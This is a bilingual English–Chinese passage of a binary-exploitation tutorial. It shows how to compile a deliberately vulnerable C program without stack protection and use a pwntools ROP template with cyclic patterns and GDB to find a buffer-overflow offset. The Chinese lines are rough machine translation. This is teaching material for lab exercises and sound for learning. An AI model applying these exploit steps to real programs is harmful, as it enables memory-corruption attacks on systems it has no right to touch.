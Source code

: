 ```bash
gcc -o vuln vuln.c -fno-stack-protector  -no-pie
```

# ROP - Leaking LIBC template

＃ROP-泄漏LIBC模板

I'm going to use the code located here to make the exploit.\

我将使用位于此处的代码进行利用。\ \
Download the exploit and place it in the same directory as the vulnerable binary and give the needed data to the script:

下载利用并将其放置在与弱势二进制文件相同的目录中，并将所需的数据提供给脚本：

{% content-ref url="rop-leaking-libc-template.md" %}

{％content-ref url =“ rop-leaking-libc-template.md”％}
[rop-leaking-libc-template.md](rop-leaking-libc-template.md)

[rop-leaking-libc-template.md]（rop-leaking-libc-template.md）
{% endcontent-ref %}

# 1- Finding the offset

＃1-查找偏移

The template need an offset before continuing with the exploit. If any is provided it will execute the necessary code to find it (by default `OFFSET = ""`):

在继续使用漏洞之前，该模板需要偏移。 如果提供的话，它将执行必要的代码以找到它（默认情况下`offset =“”`）：

```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
    gdb.attach(p.pid, "c") #Attach and continue
    payload = cyclic(1000)
    print(r.clean())
    r.sendline(payload)
    #x/wx $rsp -- Search for bytes that crashed the application
    #cyclic_find(0x6161616b) # Find the offset of those bytes
    return
```

**Execute** `python template.py` a GDB console will be opened with the program being crashed. Inside that **GDB console** execute `x/wx $rsp` to get the **bytes** that were going to overwrite the RIP. Finally get the **offset** using a **python** console:

**执行**`python template.py` gdb控制台将在程序崩溃时打开。 在该** GDB控制台内部**执行`x/wx $ rsp`以获取将覆盖RIP的**字节**。 最终使用** Python **控制台获得**偏移**：

```python
from pwn import *
cyclic_find(0x6161616b)
```
